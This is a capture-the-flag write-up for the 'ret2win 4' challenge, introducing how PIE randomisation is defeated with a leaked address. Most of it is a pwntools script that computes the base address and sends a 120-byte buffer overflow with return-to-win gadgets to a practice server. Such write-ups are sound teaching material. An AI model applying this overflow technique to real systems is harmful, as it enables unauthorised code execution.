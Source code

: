 ```yaml
---
description: Binary Exploitation
---
```


# ret2win 4

> Mitigasi lain untuk menyusahkan penyerang dalam mengubah alur program adalah PIE. PIE adalah singkatan dari Position Independent Executable yang mengakibatkan program kita untuk di-load ke dalam memori dengan offset random. Jadi walaupun ada buffer overflow, penyerang tidak tau alamat dari fungsi/instruksi yang ingin dijalankan. Tapi, kalau kita bisa dapetin salah satu alamat dari program saat dijalankan, alamat dari fungsi/instruksi yang ingin dijalankan tinggal dihitung dari selisihnya dengan alamat yang udah didapetin tadi.
>
> Author: **zran**

{% file src="../../.gitbook/assets/ret2win4.zip" %}

First time learning PIE, and this challenge is a simple introduction to PIE. The goal is to buffer overflow but with PIE in mind. First step is to use the given leak to get PIE, since it's a global variable it's very easy to find the offset. _(see 0x404c \<what\_is\_this\_for>)_

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption><p>Main function debug</p></figcaption></figure>

Just subtract the leaked address with -0x404c and we get the base address for ROP:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19003
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')
context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19003)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

log.info(io.recvuntil(': '))
leak = int(io.recvline(), 16)
log.success(f"Gifted address: {hex(leak)}")
base_addr = leak - 0x000000000000404c
log.success(f"Base address: {hex(base_addr)}")
log.info(io.clean()) 

payload = b'A' * 120
payload += p64(base_addr + 0x000000000000101a) # ret
payload += p64(base_addr + 0x0000000000001209) # win
log.success(f"Payload: {payload}")

log.info(io.clean())
io.sendline(payload)
io.interactive()
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>
